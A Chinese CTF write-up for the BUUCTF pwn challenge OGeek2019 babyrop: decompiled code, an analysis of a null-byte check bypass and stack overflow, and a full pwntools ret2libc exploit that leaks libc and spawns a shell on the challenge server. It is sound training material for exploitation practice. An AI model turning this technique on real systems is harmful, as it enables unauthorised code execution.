 ```yaml
---
author: 
  name: Zephyr
title: OGeek2019 babyrop
date: 2022-3-21 11:20:02
permalink: /pages/2e1547494524d183
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# OGeek2019 babyrop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/OGeek2019_babyrop/pwn'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main()
{
  int buf; // [esp+4h] [ebp-14h]
  char v2; // [esp+Bh] [ebp-Dh]
  int fd; // [esp+Ch] [ebp-Ch]

  sub_80486BB();
  fd = open("/dev/urandom", 0);
  if ( fd > 0 )
    read(fd, &buf, 4u);
  v2 = sub_804871F(buf);
  sub_80487D0(v2);
  return 0;
}
```

sub_804871F函数如下

```c
int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s; // [esp+Ch] [ebp-4Ch]
  char buf[7]; // [esp+2Ch] [ebp-2Ch]
  unsigned __int8 v5; // [esp+33h] [ebp-25h]
  ssize_t v6; // [esp+4Ch] [ebp-Ch]

  memset(&s, 0, 0x20u);
  memset(buf, 0, 0x20u);
  sprintf(&s, "%ld", a1);
  v6 = read(0, buf, 0x20u);
  buf[v6 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, &s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return v5;
}
```

sub_80487D0函数如下

```c
ssize_t __cdecl sub_80487D0(char a1)
{
  ssize_t result; // eax
  char buf; // [esp+11h] [ebp-E7h]

  if ( a1 == 127 )
    result = read(0, &buf, 0xC8u);
  else
    result = read(0, &buf, a1);
  return result;
}
```

部分程序表如下

![OGeek2019_babyrop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/OGeek2019_babyrop_1.png)

Gadget

```shell
ROPgadget --binary pwn --string "/bin/sh\x00"                             
Strings information
============================================================
```

## 思路分析

1. 程序分析:
   - 程度首先获取一个随机数，将该值用strlen函数与输入数据进行对比，不同则会终止程序，若相同则将v5返回，作为sub_80487D0函数的参数，若v5=127，则可以为buf写入0xC8字节数据，否则写入v5长度的数据
1. 目前信息：
   - plt表内没有system
   - 程序本体内并没有/bin/sh字符串
   - No PIE
3. 思路
   - 若能控制sub_80487D0函数的实参v2就可以实现超长字符写入造成栈溢出覆盖返回地址
   - v2是sub_804871F函数的返回值，在该函数内的输入点buf处是可以写入0x20字节的数据，虽然不够直接覆盖返回地址，但还是可以实现溢出修改上方v5即最后返回的值
   - 但要成功返回v5还要绕过与随机字符串比较的的过程，这里通过strlen函数遇到`\0`即终止并返回的特性，构造首位是`\0`的特殊输入数据绕过对比失败后的程序退出
   - 因该题plt表内并无system函数，也无/bin/sh字符串，所以应该首先泄漏libc和对应函数地址，利用泄漏到的信息，二次溢出获得shell

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/OGeek2019_babyrop/pwn'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29092)
elf = ELF(pwnfile)
payload = flat(['\0'*7, 255])
# 前置\0绕过推出，v5覆盖为255
io.sendline(payload)
io.recvuntil("Correct\n")
padding = 0xe7+4
main_addr = 0x8048825
write_plt = 0x8048578
write_got = 0x8049FEC
payload = flat(['a'*padding, write_plt, main_addr, 1, write_got, 4])
io.sendline(payload)
leak_write_addr = u32(io.recv(4))  # write真实地址
libc = LibcSearcher('write', leak_write_addr)
# 泄漏libc
libcbase = leak_write_addr-libc.dump('write')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['\0'*7, 255])
io.sendline(payload)
io.recvuntil("Correct\n")
payload = flat(['a'*padding, system_addr, 0xdeadbeef, bin_sh_addr])
# 获得shell
io.send(payload)
io.interactive()
```